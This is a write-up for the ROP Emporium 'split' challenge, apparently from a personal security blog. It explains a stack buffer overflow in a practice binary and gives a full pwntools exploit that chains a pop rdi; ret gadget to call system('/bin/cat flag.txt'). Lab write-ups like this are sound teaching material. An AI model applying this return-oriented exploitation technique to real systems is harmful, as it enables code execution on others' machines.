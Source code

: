 ```yaml
---
title: RopEmporium - Split
date: 2021-12-17 23:20:12
tags: [ropemporium, rop]
---
```


The elements that allowed you to complete ret2win are still present, they've just been split apart. Find them and recombine them using a short ROP chain

<!-- more -->

The goal of this challenge is to understand how function arguments are passed in 64bit machine when doing return oriented programming. The binary can be downloaded from the authors website [ropemporium](https://ropemporium.com).

First we check the binary protections enabled. Only **NX** (Not executable) is enabled on the device according to `checksec` binary utility as shown in the image below.

```bash
vx@archie:split$ checksec --file=split
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```

For analysis of binary we use `gdb` to analyze the functions present in the binary in order to understand the logic. We disassemble **pwnme** function as shown in the image below.The function looks familiar as for the ret2win function.

```nasm
(gdb) disas pwnme
Dump of assembler code for function pwnme:
   0x00000000004006e8 <+0>:	push   rbp
   0x00000000004006e9 <+1>:	mov    rbp,rsp
   0x00000000004006ec <+4>:	sub    rsp,0x20
   0x00000000004006f0 <+8>:	lea    rax,[rbp-0x20]
   0x00000000004006f4 <+12>:	mov    edx,0x20
   0x00000000004006f9 <+17>:	mov    esi,0x0
   0x00000000004006fe <+22>:	mov    rdi,rax
   0x0000000000400701 <+25>:	call   0x400580 <memset@plt>
   0x0000000000400706 <+30>:	mov    edi,0x400810
   0x000000000040070b <+35>:	call   0x400550 <puts@plt>
   0x0000000000400710 <+40>:	mov    edi,0x40083c
   0x0000000000400715 <+45>:	mov    eax,0x0
   0x000000000040071a <+50>:	call   0x400570 <printf@plt>
   0x000000000040071f <+55>:	lea    rax,[rbp-0x20]
   0x0000000000400723 <+59>:	mov    edx,0x60
   0x0000000000400728 <+64>:	mov    rsi,rax
   0x000000000040072b <+67>:	mov    edi,0x0
   0x0000000000400730 <+72>:	call   0x400590 <read@plt>
   0x0000000000400735 <+77>:	mov    edi,0x40083f
   0x000000000040073a <+82>:	call   0x400550 <puts@plt>
   0x000000000040073f <+87>:	nop
   0x0000000000400740 <+88>:	leave
   0x0000000000400741 <+89>:	ret
End of assembler dump.
(gdb)
```

From the above code, we are filling a buffer of size 0x20(32bytes) with a constant byte of zero. **memset** is used to overwrite any values that is present in the memory area specified. The memory region we are overwriting is [rbp-0x20]. This means we are allocating a memory buffer of size 32bytes from the boundary of base pointer address in the stack.

![](/images/ropemporium/stack.png)

Next function is **read** function, which reads for user input from the standard input file descriptor and stores in specified buffer. From disassembled code, we are reading **0x60** bytes from the user input and storing it in our buffer. This means we are reading more than what the buffer can hold, therefore leading to stack buffer overflow.

```c
ssize_t read(int fd, void *buf, size_t count);
```

For this challenge we don't have a `ret2win` function which we are to return to. From the disassembly of the binary we have an interesting function called **usefulFunction** responsible for listing the files in the directory when called.

```nasm
(gdb) disas usefulFunction
Dump of assembler code for function usefulFunction:
   0x0000000000400742 <+0>:	push   rbp
   0x0000000000400743 <+1>:	mov    rbp,rsp
   0x0000000000400746 <+4>:	mov    edi,0x40084a
   0x000000000040074b <+9>:	call   0x400560 <system@plt>
   0x0000000000400750 <+14>:	nop
   0x0000000000400751 <+15>:	pop    rbp
   0x0000000000400752 <+16>:	ret
End of assembler dump.
(gdb) x/s 0x40084a
0x40084a:	"/bin/ls"
(gdb)
```

Goal is to pass a different string to the `system` function instead of **"/bin/ls"**

From the author's hint, we can look for useful hints in the binary using either radare2.

> Now that you've gathered the elements of your exploit you can start to piece them together, you want to call system() with the **"/bin/cat flag.txt"** string as the only argument. You'll also have to start dealing with the differences between the various architectures' calling conventions.

Analyzing binary using `radare2`, we can use **iz** command to look for strings. The goal is to read the flag from the system.

```nasm
[0x004005b0]> iz
nth paddr      vaddr      len size section type  string
---------------------------------------------------------------------------------------------
0   0x000007e8 0x004007e8 21  22   .rodata ascii split by ROP Emporium
1   0x000007fe 0x004007fe 7   8    .rodata ascii x86_64\n
2   0x00000806 0x00400806 8   9    .rodata ascii \nExiting
3   0x00000810 0x00400810 43  44   .rodata ascii Contriving a reason to ask user for data...
4   0x0000083f 0x0040083f 10  11   .rodata ascii Thank you!
5   0x0000084a 0x0040084a 7   8    .rodata ascii /bin/ls
0   0x00001060 0x00601060 17  18   .data   ascii /bin/cat flag.txt

```

We have an important string **"/bin/cat flag.txt"** which will enable us to complete our goal. Now we need pass string to system function as follows **system('/bin/cat flag.txt')**.

For building ropchain, we need to understand the calling conventions of **AMD64 ABI**.The calling convention passes the arguments to the registers in the following order **RDI, RSI, RDX, RCX, R8 and R9**.

Because the system function receives one argument, we need to look for one gadget t that we control **rdi** address.

**What are gadgets?**

Gadgets are sequence of instructions that end with `ret` instruction. Because we want to load a value into rdi register, we look for a pop **pop rdi; ret** instruction in order to pass an argument to `system`.

For searching gadget in radare2/rizin, use **/R** command as shown in the image below.

![](/images/ropemporium/split_poprdi.png)
Now we need to chain ropchain exploit as shown in the image below.

![ropchain](/images/ropemporium/popgadget.png)

The goal is to overwrite the return address with the address of **"pop rdi, ret "** and call system function. we need to fill the buffer memory with 32bytes, 8 bytes to overwrite the `rbp` address and 8 bytes to overwrite return address with pop rdi address.

Full exploit of split challenge is;

```python
import pwn

pwn.context.encoding = "latin-1"
pwn.warnings.simplefilter("ignore")
pwn.context.arch = "amd64"

io = pwn.process("./split")

system_addr = pwn.p64(0x400560)   #address of system
pop_rdi_ret = pwn.p64(0x004007c3)  # pop rdi; ret gadget
bin_cat_addr = pwn.p64(0x00601060)  #bin cat flag.txt address

payload = b"A" * 32  #fill the buffer
payload += b"B" *8   # overwrite  rbp
payload += pop_rdi_ret # pop rdi gadget
payload += bin_cat_addr # argument passed to the system function
payload += system_addr   #call system

io.writeafter('>', payload)

pwn.info(io.clean().decode())
```

Running python3 code we get a flag.

![](/images/ropemporium/split_flag.png)

> **To avoid the segmentation fault of the above, we can overwrite the rbp address with exit function address in order to exit without segfault.**
